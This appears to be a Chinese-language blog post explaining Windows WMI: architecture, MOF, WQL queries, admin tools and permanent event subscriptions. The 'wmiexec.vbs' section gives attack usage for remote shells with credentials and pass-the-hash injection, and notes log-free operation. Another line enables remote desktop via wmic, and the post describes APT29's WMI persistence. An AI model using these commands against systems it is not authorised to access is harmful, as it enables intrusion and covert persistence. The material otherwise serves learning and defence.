

# 0x00 WMI - Windows 管理规范
<!-- more -->
WMI ( Windows Management Instrumentation ) 管理规范是微软实现的由分布式管理任务组(DMTF)发布的基于Web的企业管理(WBEM)和公共信息模型(CIM)标准,是内置在 Windows 2000、Windows XP 和 Windows Server 2003 系列操作系统中核心的管理支持技术,是一种规范和基础结构,通过它可以访问、配置、管理和监视所有的几乎所有的 Windows 资源。

在 WMI 之前,能够以编程方式访问 Windows 资源的惟一方法就是通过 Win32 API。这种情况使 Windows 系统管理员无法通过一种简便的方法利用常见的脚本语言来自动化常用的系统管理任务,因为大多数脚本语言都不能直接调用 Win32 API。

WMI是架构在组件对象模型COM(Component Object Model COM)技术之上的,是微软的一套软件组件的二进制接口标准。这使得跨编程语言的进程间通信、动态对象创建成为可能。

## 0x01 WMI基础结构

[Objects, Consumers, and Infrastructure of WMI - WMI基础结构与WMI提供程序和受管理对象之间的关系](https://docs.microsoft.com/zh-cn/windows/win32/wmisdk/wmi-architecture)


Fireeye - WMI的结构


### 1. WMI consumers - WMI使用者

它位于WMI构架的最顶层,是WMI技术使用的载体。如果我们是C++程序员,我们可以通过COM技术直接与下层通信。而脚本语言则要支持WMI Scripting API,间接与下层通信。对于.net平台语言,则要使用System.Management域相关功能与下层通信。

WMI使用者是与WMI基础结构进行交互的管理应用程序或脚本。 

这一层是程序员能直接接触到的API层面的东西,我们可以使用C++、WMI Script脚本编写代码去操作WMI COM API对WMI进行操作
    1. C/C++ Client
    2. Scripts
    3. .NET Client Application

管理应用程序(或脚本)可以通过调用[WMI的COM API](https://docs.microsoft.com/zh-cn/windows/win32/wmisdk/com-api-for-wmi)或[WMI的Scripting API](https://docs.microsoft.com/zh-cn/windows/win32/wmisdk/scripting-api-for-wmi)来查询,枚举数据,运行Provider提供程序方法或订阅事件。Provider提供程序所提供的数据或操作仅可用于托管对象(例如磁盘驱动器或服务)。

### 2. WMI Infrastructure - WMI基础结构

WMI基础结构是Windows系统的系统组件。它包含两个模块: 

    WMI Core的WMI Service(WMI服务)(Winmgmt) - CIM Object Manager
    WMI Repository(WMI存储库) - WMI namespaces(WMI命名空间) 组成
        WMI的namespace由系统自身创建和Provider创建2部分组成,例如
            1) root\default
            2) root\cimv2
            3) root\subscription
            ...
            等等由底层的Provider创建的namespace
            4) /LM/MSFTPSVC/n
    简单来说,WMI Repository就相当于一个保存WMI信息的数据库,而底层的Provider所提供的信息就相当于一个个独立的数据表,在WMI中称之为命名空间namespace,我们在进行WMI查询之前,需要明确指定需要查询的namespace


### 3. Managed object and WMI providers - 托管对象和WMI提供者

这是整个WMI体系的最底层,它对所有的"提供者(Provider)"提供了封装和抽象。

WMI提供者是监控一个或者多个托管对象的COM接口。一个托管对象是一个逻辑或者物理组件,比如硬盘驱动器、网络适配器、数据库系统、操作系统、进程或者服务。和驱动相似,WMI提供者通过托管对象提供的数据向WMI服务提供数据,同时将WMI服务的请求传递给托管对象。

从文件的角度来说,WMI提供者是由一个实现逻辑的DLL和承载着描述数据和操作的类的托管对象格式MOF(Managed Object Format)文件组成。这个两个文件都保存在%Windir%\System32\Wbem目录下。

### 4. Winmgmt - WMI服务

WMI服务是操作系统组件,充当管理应用程序(management applications 或脚本)和WMI数据提供程序(WMI data providers)之间的中介。 WMI存储库是WMI相关静态数据的存储区域。

它是通过一个共享的服务进程SVCHOST来实施工作的。当第一个管理应用向WMI命名空间发起连接时,WMI服务将会启动。当管理应用不再调用WMI时,WMI服务将会关闭或者进入低内存状态。

WMI服务和上层应用之间是通过COM接口来实现的。
    
    当一个应用通过接口向WMI发起请求时,WMI将判断该请求是请求静态数据还是动态数据。
    如果请求的是一个静态数据,WMI将从WMI存储库中查找数据并返回；
    如果请求的是一个动态数据,比如一个托管对象的当前内存情况,WMI服务将请求传递给已经在WMI服务中注册的相应的WMI提供者。
    WMI提供者将数据返回给WMI服务,WMI服务再将结果返回给请求的应用。

### 5. MOF - 托管对象格式 Managed Object Format

托管对象格式 Managed Object Format (MOF)是WMI数据库中类和类实例的原始保存形式,是用于描述通用信息模型(CIM)类的语言。

MOF 文件是一个文本文件,包含了指定的可被查询的事物的语句如该事物的名称,复杂类的字段类型,对象组相关的权限。语言的结构类似于 Java,相当于受限的 Java 接口声明。

WMI提供程序(Provider)实现新WMI类的推荐方法是在MOF文件中,该文件使用Mofcomp.exe编译到WMI存储库(WMI Repository)中。也可以使用WMI的COM API创建和操作CIM类和实例。

WMI 提供程序(Provider)通常是由提供的 MOF 文件定义的,它定义了数据和事件类和提供数据的 COM DLL 文件。

WMI提供程序通常包括一个MOF文件和一个DLL文件,该文件定义了提供程序为其返回数据的数据和事件类,而DLL文件则包含提供数据的代码。

WMI客户端脚本和应用程序(scripts and applications )可以查询提供程序MOF类(provider MOF classes)的实例或订阅以接收事件通知。

Windows 管理规范 (WMI) 提供了以下三种方法编译到WMI存储库的托管对象格式 (MOF) 文件: 

    使用Mofcomp.exe
    使用 IMofCompiler 接口和$CompileFile方法
    拖放到%SystemRoot%\System32\Wbem\MOF文件夹的 MOF 文件

MOF 是一种面向对象的语言,它由以下部分组成：

    命名空间
    类
    属性
    方法
    限定符
    实例
    引用
    注释

#### MOF 中的命名空间

要在 MOF 中声明一个 CIM 命名空间,可以使用#pragma namespace指令。通常,这个语句被发现在文件的最开始,并且会应用到同一文件内剩余部分的语句。

MOF 语言允许通过声明父命名空间并定义一个 __namespaceclass 的新实例来创建新的命名空间。列出的 MOF 文件创建//./ROOT/default/NewNS命名空间。

```m
#pragma namespace("\\\\.\\ROOT\\default")
instance of __namespace
{
    Name = "NewNS";
}

```

#### mof文件记录注册表修改

mof文件记录注册表修改的操作,管理员权限执行mofcomp reg.mof

reg.mof
```csharp

 #pragma namespace ("\\\\.\\root\\subscription")
    instance of __EventFilter as $Filter
    {
        Name = "RunKeyFilter";
        QueryLanguage = "WQL";
        Query = "Select * from RegistryTreeChangeEvent"
                " where (Hive = \"HKEY_LOCAL_MACHINE\" and "
                "KeyPath = \"Software\\\\Microsoft\\\\Windows"
                "\\\\CurrentVersion\\\\Run\")";

        // RegistryTreeChangeEvents only fire
        // in root\default namespace
        EventNamespace = "root\\default";   
    };

    instance of LogFileEventConsumer as $Consumer
    {
        Name= "consumer1";
        Filename = "C:\test\log.log";
        Text ="The change is HKEY_LOCAL_MACHINE\\%KeyPath%";

    };
    // Bind the filter to the consumer
    instance of __FilterToConsumerBinding
    {
        Filter = $Filter;
        Consumer = $Consumer;
    };


or vbs 
vbs文件记录注册表修改的操作
strComputer = "."
Set objWMIService = GetObject("winmgmts:\\" & strComputer & "\root\default")
Set colEvents = objWMIService.ExecNotificationQuery _
    ("SELECT * FROM RegistryKeyChangeEvent WHERE Hive='HKEY_LOCAL_MACHINE' AND " & _
        "KeyPath='SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run'") 
Do
    Set objLatestEvent = colEvents.NextEvent
    Wscript.Echo Now & ": The registry has been modified."
Loop

```


### 6. WMI namespaces 命名空间

WMI的命名空间创建了一个层次结构,有点类似于我们的目录文件结构。

    1. root-作为所有其他名字的占位符；
    2. root\default-与注册表操作有关的类；
    3. root\security-与系统安全有关的类；
    4. root\cimv2-从CIM派生的类,代表我们最常用的工作环境。

微软使用 ROOT\CIMV2 作为默认的命名空间。在下面的注册表项中包含所有 WMI 设置,也包括已定义的默认命名空间:

    HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\WBEM

可以使用下面的 PowerShell 代码递归查询所有的 WMI 类和它们各自的命名空间。

```PowerShell
function Get-WmiNamespace {
    Param ($Namespace='ROOT')
    Get-WmiObject -Namespace $Namespace -Class __NAMESPACE | ForEach-Object{
        ($ns = '{0}\{1}' -f $_.__NAMESPACE, $_.Name)
        Get-WmiNamespace -Namespace $ns
    }

}
$WmiClasses = Get-WmiNamespace | ForEach-Object {
    $Namespace = $_
    Get-WmiObject -Namespace $Namespace -List | ForEach-Object {$_.Path.Path}
} | Sort-Object -Unique

### __Namespace :  \root namespace are two instances of __Namespace. These instances represent the \root\default, and \root\cimv2 

```

WMI的对象路径用来在CIM库中定位类和它的事例

对象路径用两个反斜杠\\\\开头,第一个元素是目标计算机的名字,第二个元素是相应的WMI命名空间,第三个元素是相应的类名,并用 : 将它与命名空间分隔开来。例如: 

    \\..\root\cimv2:win32_service

## 0x02 WMI 查询

### 1. WQL

WMI 提供了一种简单的语法用于查询 WMI 对象实例、 类和命名空间 - WMI 查询语言 (WQL)。

有三种类别的 WQL 查询:

    1.实例查询(Instance Queries) - 用于查询 WMI 类的实例
    2.事件查询(Event Queries) - 用于一个 WMI 事件注册机制(event registration mechanism),例如 WMI 对象的创建、 删除或修改
    3.元查询(Meta Queries) - 用于查询 WMI 类架构(WMI class schemas)

WQL就是WMI中的查询语言。它有如下特点: 

    > 每个WQL语句必须以 SELECT 开始；
    > SELECT 后跟你需要查询的属性名(我刚才对应SQL将其称之为字段名了),也可以像SQL一样,以*表示返回所有属性值；
    > FROM关键字；
    > 你要查询的类的名字；
    > 另外,如果你想精确查询结果还可以加上WHERE条件从句。比如某个类有Enable属性,你可以在查询的时候加上WHERE ENABLE=true。

语法

    SELECT properties[,properties] FROM class [where clause]
        SELECT      必选项。代表WQL语句的开始,
        properties  必选项。代表想查询的属性名字。可以是多个属性名,也可查询所有属性值,用*代替。
        FROM        必选项。跟在properties的后面。
        Class       必选项。代表想要查询的类的名称。
        where clause 可选项。where 从句和相关条件语句,用来缩小查询范围。

    Win + R -> wbemtest ( 系统自带的测试WMI语句的工具 )
    root\cimv2 or ROOT\SecurityCenter 

        SELECT * FROM Win32_Product;
        SELECT * FROM Win32_Process;

攻击者使用wmi来进行攻击,但Windows系统默认不会在日志中记录这些操作。

可以做到无日志,攻击脚本无需写入到磁盘,增加了隐蔽性,越来越多的apt事件中使用WMI进行攻击(信息收集,命令执行,权限持久化等操作)。

### 2. 实例查询

查询将返回 Win32_Process 类的每个实例的所有属性的名称字段中包含字符串"Chrome"的结果

    SELECT [Class property name|*] FROM [CLASS NAME] <WHERE [CONSTRAINT]>
    SELECT * FROM Win32_Process WHERE Name LIKE "%chrome%"
        Win32_Process.Handle="5292"
        Win32_Process.Handle="5364"
        ...

### 3. 事件查询

事件查询提供了报警机制,触发事件的类。在 WMI 类实例被创建时被用于常用的事件查询触发器。

    SELECT [Class property name|*] FROM [INTRINSIC CLASS NAME] WITHIN [POLLING INTERVAL] <WHERE [CONSTRAINT]>
    SELECT [Class property name|*] FROM [EXTRINSIC CLASS NAME] <WHERE [CONSTRAINT]>

    交互式用户登录的事件查询触发器

        SELECT * FROM __InstanceCreationEvent WITHIN 15 WHERE TargetInstance ISA 'Win32_LogonSession' AND TargetInstance.LogonType = 2
    
### 4. 元查询

元查询提供一个 WMI 类架构发现和检查机制。元查询采用以下形式:

    SELECT [Class property name|*] FROM [Meta_Class<WHERE [CONSTRAINT]>

    以下查询将列出所有以字符串 "Win32" 开头的 WMI 类: 

        SELECT * FROM Meta_Class WHERE __Class LIKE "Win32%"

当执行任何 WMI 查询时,除非显式提供命名空间,否则将隐式使用默认的命名空间 ROOT\CIMV2。


## 0x03 WMI 交互

Microsoft和一些第三方软件开发者为我们提供了许多能够与WMI交互的工具。

    1. PowerShell
    2. wmic.exe
    3. wbemtest.exe
    4. WMI Explorer
    5. CIM Studio
    6. Windows Script Host (WSH) languages : VBScript
    7. C/C++ via IWbem* COM API
    8. .NET using System.Management Classes 
    9. winrm.exe
    10. wmiexec.vbs

### 1. PowerShell

PowerShell V3以下 cmdlet 可用于与 WMI 进行交互: 

    Get-WmiObject
    Get-CimAssociatedInstance
    Get-CimClass
    Get-CimInstance
    Get-CimSession
    Set-WmiInstance
    Set-CimInstance
    Invoke-WmiMethod
    Invoke-CimMethod
    New-CimInstance
    New-CimSession
    New-CimSessionOption
    Register-CimIndicationEvent
    Register-WmiEvent
    Remove-CimInstance
    Remove-WmiObject
    Remove-CimSession

WMI 和 CIM 的 cmdlet 也提供了类似的功能。然而,CIM cmdlet 引入了 PowerShell V3,并通过WMI cmdlets 提供了一些额外的灵活性。

使用 CIM cmdlet 的最大优点是它们工作在 WinRM 和 DCOM 协议之上。WMI cmdlet 只工作在 DCOM 协议之上。

但是并不是所有的系统都将安装 PowerShell v3+。PowerShell v2 是默认安装在 Windows 7 上的。因此,它被攻击者视为最小公共程序。

#### 获取WMI对象: Get-WmiObject

    Get-WmiObject -query "WQL语句" 
    select * from win32_service where name='WinRM'
        --> Win32_Service.Name="WinRM"
    Get-WmiObject -Query "select * from win32_service where name='WinRM'" | Format-List -Property PSComputerName, Name, ExitCode, Name, ProcessID, StartMode, State, Status

        PSComputerName : DESKTOP-S0I2B99
        Name           : WinRM
        ExitCode       : 0
        Name           : WinRM
        ProcessID      : 1496
        StartMode      : Manual
        State          : Running
        Status         : OK

在PowerShell 3.0 中,你仍然可以使用功能强大的Get-WmiObject命令,但是它们会逐渐被CIM命令所替代。

如果你已经在使用Get-WmiObject命令查询数据。那可以非常流畅地切换至Get-CimInstance,因为这类命令都比较类似。

只不过Get-CimInstance执行的结果只是名副其实的Instance,没有包含任何方法信息。

    Get-WmiObject -list # 显示所有的WMI对象(Classes)
    (Get-WmiObject win32_logicaldisk | ?{$_.DeviceID -like "C:"}).freespace # 获取指定磁盘C盘剩余空间
    Get-WmiObject win32_share | Format-list *
    Get-WmiObject -list win32_*     # 获取win32_开头的对象
    Get-WmiObject -query "select * from win32_service where state='running'"
    Get-WmiObject -Class win32_service  == Get-Service
    Get-WmiObject Win32_Process | Where-Object {$_.name -like "*explorer*"}
    Get-WmiObject -Namespace "root\default" -List # Get WMI classes in the root or default namespace of the local computer
    Get-WmiObject -Namespace ROOT\CIMV2 -Class Win32_OperatingSystem
    wmic /NAMESPACE:"root\CIMV2"

    remote 
        Get-WmiObject Win32_Service -Credential corp\administrator -ComputerName corp01
        (Get-WmiObject -Class Win32_Service -Filter "name='WinRM'" -ComputerName Server01).StopService()


### 2. wmic.exe

    wmic nicconfig get ipaddress,macaddress读取ip和mac地址
    wmic computersystem get username查看登录账号
    wmic netlogin get name,lastlogon查看登录记录
    wmic process get caption, executablepath,commandline查看进程
    wmic process where name="calc.exe" call terminate结束进程
    wmic os get name,servicepackmajorversion 提取操作系统版本
    wmic product get name,version查看软件
    wmic product get caption,installdate,version
    wmic product where name="name" call uninstall /nointeractive   卸载
    wmic share get /ALL看共享文件夹
    wmic  /node:主机名  path Win32_TerminalServiceSetting where AllowTSConnections="0" call SetAllowTSConnections "1"  开启远程
    wmic nteventlog get path,filename, writeable    查看系统日文件目录

### 3. wbemtest.exe

wbemtest.exe 是一个功能强大的带有图形界面的 WMI 诊断工具。它能够枚举对象实例、执行查询、注册事件、修改 WMI 对象和类,并且可以在本地或远程去调用方法。

### 4. WMI Explorer

WMI Explorer 是一个很好的 WMI 类发现工具。它提供了一个优雅的 GUI ,你可以使用分层次的方式探索 WMI 存储库。它也能够连接到远程的 WMI 存储库,并执行查询。

### 5. CIM - Common Information Model

通用信息模型(CIM)是可扩展的,面向对象的数据模型。 CIM是由分布式管理任务组(DMTF)维护的跨平台标准。通过WMI开发人员可以使用CIM创建代表硬盘驱动器,应用程序,网络路由器或什至用户定义的技术(例如网络空调)的类。

CIM Studio 是 Microsoft 遗留的一个免费工具,你可以方便地浏览 WMI 存储库。像 WMI Explorer 一样,此工具也可以很好的进行 WMI 类发现。


### 6. Windows 脚本宿主(WSH)语言

Microsoft 提供了两个 WSH 脚本语言,VBScript 和 JScript。尽管它们比较过时,也算不上高雅的编程语言,但是说到与 WMI 进行交互时,它们的确都是功能强大的脚本语言。事实上,使用 VBScript 和 JScript 编写的利用 WMI 作为主要的 C&C 机制的后门已经出现了。

它们是唯一支持 ActiveScriptEventConsumer 事件消费者组件的语言,该组件对于攻击者和防御者来说都是一个非常有价值的 WMI 组件。最后,从攻击的角度来看, VBScript 和 JScript 是在未安装 PowerShell 的老版本的 Windows 系统上的最小公共程序。

**VBScript**
```VB
    strComputer = "."
    Set objWMIService = GetObject("winmgmts:{impersonationLevel=impersonate}!\\" & strComputer & "\root\cimv2")
    Set colItems = objWMIService.ExecQuery("Select * from Win32_ComputerSystem")
    For Each objItem in colItems
        Wscript.Echo "Computer Name: " & objItem.Name
    Next

https://docs.microsoft.com/zh-cn/windows/win32/wmisdk/creating-wmi-clients

```

### 7. C/C++ 调用 IWbem* COM API

如果你需要使用非托管语言如 C 或 C++ 与 WMI 进行交互,你将需要使用 [WMI 的 COM API](https://msdn.microsoft.com/en-us/library/aa389276(v=vs.85).aspx)。逆向工程师将需要非常熟悉此接口以及每一个 COM Guid 才能充分理解与 WMI 交互的恶意软件。

### 8. .Net System.Management 类

System.Management 命名空间是 .NET 框架中的 WMI 命名空间。此命名空间包括下列支持 WMI 操作的第一级类对象: 

    ManagementObject 或 ManagementClass: 分别为单个管理对象或类。
    ManagementObjectSearcher: 用于根据指定的查询或枚举检索 ManagementObject 或 ManagementClass 对象的集合。
    ManagementEventWatcher: 用于预订来自 WMI 的事件通知。
    ManagementQuery: 用作所有查询类的基础。
**C#**
```CSharp
using Microsoft.Management.Infrastructure;
...
CimSession session = CimSession.Create("localHost");
IEnumerable queryInstance = session.QueryInstances(@"root\cimv2", "WQL", "SELECT * FROM Win32_ComputerSystem");
foreach (CimInstance cimObj in queryInstance)
{
    Console.WriteLine(cimObj.CimInstanceProperties["Name"].ToString());
}
https://docs.microsoft.com/zh-cn/windows/win32/wmisdk/creating-wmi-clients
```


### 9. winrm.exe - Windows 远程管理 (WinRM)

从分布式组件对象模型 (DCOM) 出现以来它一直是 WMI 所使用的默认协议,通过 TCP 的 135 端口建立初始连接。后续的数据交换则使用随机选定的 TCP 端口。可以通过 dcomcnfg.exe 并最终修改下面的注册表项来配置此端口的范围: 

    HKEY_LOCAL_MACHINE\Software\Microsoft\Rpc\Internet -Ports (REG_MULTI_SZ)

在 PowerShell 中内置的所有 WMI cmdlets 都是使用 DCOM 进行通信的

    ls WSMan:\localhost

但是 WinRM 取代了 DCOM 并成为 Windows 推荐的远程管理协议。WinRM 的构建基于 Web 服务管理 (WSMan) 规范 - 一种基于 SOAP 的设备管理协议。

此外,PowerShell 的远程传输协议也是基于 WinRM 规范的, WinRM 也支持 WMI,以及通过网络执行 CIM 操作。

默认情况下,WinRM 服务监听的 TCP 端口是 5985 (HTTP),并且在默认情况下是加密的。还可以配置证书使其支持 HTTPS ,此时监听的 TCP 端口为 5986。

    Test-WSMan -ComputerName 10.1.0.100 
    PowerShell 提供了一个 cmdlet 可以很方便的验证 WinRM 服务是否正在侦听。如果返回了结果,则表明该系统的 WinRM 服务正处于监听状态。
    sc stop winrm , Test-WSMan 就会报错。

为了与系统的 WMI 进行交互以便运行 WinRM 服务,唯一支持远程 WMI 交互的内置工具是 winrm.exe 和 PowerShell 的 CIM cmdlet。此外,对于没有运行 WinRM 服务的系统还可以使用 CIM cmdlet 来配置使用 DCOM 。

winrm.exe 可以在运行 WinRM 服务的本地和远程计算机上进行枚举 WMI 对象实例、调用方法,并创建和删除对象实例。也可以用 winrm.exe 来配置 WinRM 设置。

下面的示例显示了 winrm.exe 可用于执行命令、枚举对象的多个实例,并检索单个对象实例:

    sc start winrm
    winrm invoke Create wmicimv2/Win32_Process @{CommandLine="notepad.exe";CurrentDirectory="C:\"}
    winrm enumerate wmicimv2/Win32_Process    ==  winrm enumerate http://schemas.microsoft.com/wbem/wsman/1/wmi/root/cimv2/Win32_Process
    winrm get wmicimv2/Win32_OperatingSystem  ==  winrm get http://schemas.microsoft.com/wbem/wsman/1/wmi/root/cimv2/Win32_OperatingSystem


### 10. wmiexec.vbs

当攻击者使用wmiexec来进行攻击时，Windows系统默认不会在日志中记录这些操作，这意味着可以做到攻击无日志，同时攻击脚本无需写入到磁盘，具有极高的隐蔽性。

越来越多的APT事件中也出现了WMI攻击的影子，利用WMI可以进行信息收集、探测、反病毒、虚拟机检测、命令执行、权限持久化等操作。

最开始我不太喜欢WMI，因为通过WMI执行的命令是没有回显的，这会带来很大的不便。不过在HES2014上有研究者提出了回显的思路，加上psexec类的攻击已被很多的杀软查杀，研究下WMI攻击还是很有必要的。

[WMI SHELL – new way to get shells on remote Windows machines using only the WMI service](http://2014.hackitoergosum.org/slides/day1_WMI_Shell_Andrei_Dumitrescu.pdf)

常见的WMI攻击工具有这些

    PTH-WMIS (最早wmi攻击的工具，单条命令执行，无回显，需要pth-smbget配合读取结果)
    impackets 
        wmiexec.py(Linux跨window经常用)
        wmipersist.py
        Wmiquery.py
    Empire 
        lateral_movement/invoke_wmi
        persistence/elevated/wmi
    wmiexec.vbs (国人制造 为了回显会写文件)
    Invoke-WmiCommand&Invoke-PowerShellWmi

wmiexec.vbs

    1. 半交互模式
        cscript.exe //nologo wmiexec.vbs /shell ip username password
    2. 单命令执行
        cscript.exe wmiexec.vbs /cmd ip username password "command"
    3. wce_hash注入
        如果抓取的LM hash是AAD3开头的，或者是No Password之类的，就用32个0代替LM hash
        wce -s hash
        cscript.exe //nologo wmiexec.vbs /shell ip


## 0x04 WMI permanent event subscriptions 永久事件订阅

WMI事件分两类,包括**本地事件**(运行在本地上下文环境当中的单个进程的事件)和**永久性WMI事件订阅(permanent event subscriptions)**。

本地事件有生命周期为进程宿主的周期,而永久性 WMI事件 是存储在WMI库中,以 SYSTEM 权限运行,并且重启后依然存在。

从攻击者或防御者的角度来看, WMI 最强大的功能之一就是对 WMI 事件的异步响应的能力。您可以创建半同步或异步查询来监视对事件日志,进程创建,服务状态,计算机可用性或磁盘驱动器可用空间以及其他实体或事件的更改。

在满足特定条件时,我们可以使用WMI永久事件订阅(permanent event subscriptions)机制来触发特定操作。攻击者经常利用这个功能,在系统启动时执行后门程序,完成本地持久化。

WMI的永久事件订阅(permanent event subscriptions)包含三个核心WMI类: **Filter(过滤器)**类、**Consumer(消费者)**类以及**FilterToConsumerBinding(消费者绑定筛选器)**类。

### 1.事件筛选器(Event filter)

筛选出感兴趣的事件(WQL事件查询)

WMI Filter用来定义触发Consumer的具体条件,包括系统启动、特定程序执行、特定时间间隔以及其他条件。

    创建一个具有特定名称的进程
    将 DLL 加载到进程中
    创建具有特定 ID 的事件日志
    插入可移动媒体
    用户注销
    创建、修改、删除任何文件或目录

事件筛选器都被存储为一个 **ROOT\subscription:__EventFilter** 对象的实例。

    Get-WMIObject -Namespace root\Subscription -Class __EventFilter


事件筛选器查询支持以下类型的事件: Intrinsic Events (内部事件) and Extrinsic Events (外部事件)

### 2.事件消费者(Event Consumers)

要在事件被触发时执行的操作,包括执行命令、运行脚本、添加日志条目或者发送邮件。

事件消费是一个派生自 **__EventConsumer 系统类**的类,它表示了在事件触发时的动作。可用的标准事件处理类: 

    LogFileEventConsumer – 将事件数据写入到指定的日志文件
    NTEventLogEventConsumer – 创建一个包含事件数据的日志入口点
    SMTPEventConsumer – 将事件数据用邮件发送
    ActiveScriptEventConsumer – 执行嵌入的 VBScript 或 JScript 脚本 payload
    CommandLineEventConsumer – 执行一个命令行程序

攻击者在响应他们的事件时,大量使用 ActiveScriptEventConsumer 和 CommandLineEventConsumer 类。这两个事件消费者为攻击者提供了极大的灵活性去执行他们想要执行的任何 payload 并且无需写入一个恶意的可执行文件或脚本到磁盘。

### 3.消费者绑定筛选器(A filter to consumer binding)

将筛选器绑定到消费者的注册机制

FilterToConsumerBinding用来将Consumer与Filter关联在一起。创建一个WMI永久事件订阅需要系统的管理员权限。

example APT29 - POSHSPY后门

    Mandiant最初在2015年的一次应急响应处置中发现了POSHSPY后门,早期版本的后门使用的是PowerShell脚本。随后,攻击者更新了后门版本,使用WMI来实现本地存储和持久化
    APT29使用WMI来完成后门的本地持久化并存储PowerShell后门代码。
        1. 为了存储后门代码,APT29创建了一个新的WMI类,添加了一个文本属性以存储字符串,并将加密base64编码的PowerShell后门存放在该属性中。

        2. 创建了一个WMI事件订阅来运行该后门,其具体内容是通过PowerShell命令,直接从新的WMI属性中读取、加密和执行后门代码。通过这种方法,攻击者可以在系统中安装一个持久性后门,并且不会在系统磁盘上留下任何文件(除了WMI仓库中的文件之外)。这种"无文件"后门技术使得常见的主机分析技术难以识别恶意代码。

### 4. Powershell 实例

业务场景: 添加WMI事件实现对Winrm service的监控,当Winrm 异常停止时,重新启动。

在Powershell 出生之前, WMI是无可替代的远程(本地)系统管理工具。当下Powershell 已经慢慢取代了ActiveScript+WMI, 然而不可否认WMI依旧是WINDOWS系统管理的利器。

**创建EventFilter**

```Powershell
$query = "SELECT * FROM __InstanceModificationEvent WITHIN 5 WHERE TargetInstance ISA 'Win32_Service' and TargetInstance.Name = 'Winrm' and TargetInstance.State = 'Stopped'"
$filter = Set-WmiInstance -Class __EventFilter -ComputerName  "localhost" -Namespace "root\subscription" -Arguments `
  @{
    name='WinrmFilter'; 
    EventNameSpace="root\cimv2"; 
    QueryLanguage="WQL";
    Query=$query
  }

### __InstanceModificationEvent 内部事件(Win32_service的元事件)
###  Get-CimClass -ClassName "__*Event" -PropertyName 'TargetInstance'
### WITHIN 5 : 设定触发条件,每隔5s 执行一次

```
**创建EventConsumer**

```Powershell

$Consumer = Set-WmiInstance -Class CommandLineEventConsumer `
 -ComputerName "localhost" -Namespace "root\subscription" `
 -Arguments @{name="WinrmDeamon";
  CommandLineTemplate = { powershell -Command 'Winrm quickconfig /q >> C:\Windows\Temp\WinrmEvent.txt;get-date >> C:\Windows\Temp\WinrmEvent.txt' 
   } ;
   ExecutablePath= 'C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe'
   }

## or CommandLineTemplate =$exepath;
```
**消费者绑定筛选器**

```Powershell
$Binding = Set-WmiInstance -Class __FilterToConsumerBinding -ComputerName 'localhost' `
  -Namespace "root\subscription" -arguments @{Filter=$filter; Consumer=$Consumer} 

```
查看WinEvent
```Powershell
Get-WinEvent -ProviderName 'Microsoft-Windows-WMI-Activity' -MaxEvents 5 | fl

TimeCreated  : 12/6/2019 1:46:05 AM
ProviderName : Microsoft-Windows-WMI-Activity
Id           : 5861
Message      : Namespace = //./root/subscription; Eventfilter = WinrmFilter (refer to its activate eventid:5859);
               Consumer = CommandLineEventConsumer="WinrmDeamon"; PossibleCause = Binding EventFilter:
               instance of __EventFilter
               {
                CreatorSID = {1, 5, 0, 0, 0, 0, 0, 5, 21, 0, 0, 0, 31, 45, 42, 193, 31, 231, 217, 225, 133, 11, 245,
               58, 233, 3, 0, 0};
                EventNamespace = "root\\cimv2";
                Name = "WinrmFilter";
                Query = "SELECT * FROM __InstanceModificationEvent WITHIN 5 WHERE TargetInstance ISA 'Win32_Service'
               and TargetInstance.Name = 'Winrm' and TargetInstance.State = 'Stopped'";
                QueryLanguage = "WQL";
               };
               Perm. Consumer:
               instance of CommandLineEventConsumer
               {
                CommandLineTemplate = " powershell '\n        $logPath=\"C:\\WinrmEvent.txt\"\n        Winrm
               quickconfig /q >> logPath\n        get-date >> logPath\n        ' \n   ";
                CreatorSID = {1, 5, 0, 0, 0, 0, 0, 5, 21, 0, 0, 0, 31, 45, 42, 193, 31, 231, 217, 225, 133, 11, 245,
               58, 233, 3, 0, 0};
                ExecutablePath = "C:\\Windows\\SysWOW64\\WindowsPowerShell\\v1.0\\powershell.exe";
                Name = "WinrmDeamon";
               };
```
or cmd 

```csharp

wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter Create Name="NotepadFilter",EventNameSpace="root\cimv2",QueryLanguage="WQL",Query="SELECT * FROM __InstanceModificationEvent WITHIN 5 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"

wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer Create Name="NotepadConsumer",ExecutablePath="c:\Windows\System32\notepad.exe",CommandLineTemplate="c:\Windows\System32\notepad.exe"

wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding Create Filter="__EventFilter.Name=\"NotepadFilter\",Consumer="CommandLineEventConsumer.Name=\"NotepadConsumer\""


---> 

wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter GET __RELPATH /FORMAT:list
wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer GET __RELPATH /FORMAT:list
wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding GET __RELPATH /FORMAT:list

